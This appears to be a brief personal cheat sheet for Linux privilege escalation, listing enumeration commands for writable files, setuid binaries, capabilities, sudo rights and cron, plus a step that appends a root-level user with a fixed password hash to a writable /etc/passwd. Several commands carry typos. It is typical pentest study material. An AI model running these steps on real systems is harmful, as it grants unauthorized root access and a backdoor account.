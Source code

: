 #Linux PrivEsc
## Find interesting files
find / -writable -type f 2>/dev/null  #Writable files\
find / -writable -type d 2>/dev/null #Writable directories\
find / -perm -u=s -type f 2>/dev/null #Setuid executables\

## Passwd file writable?
s -al /var/etc/passwd \
lopenssl passwd w00t\
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd\
su root2

## OS information --> kernel exploit?
hostname\
cat /etc/issue\
cat /etc/os-release\
uname -a\

## Envirionment variables
env 

## Sudo privileges
sudo -l 

## Running services
ps -aux (evt met watch) 

## Cron
grep "CRON"  /var/log/syslog\

 ## Possible overprived services/applicaitons\
/usr/sbin/getcap -r / 2>/dev/null 

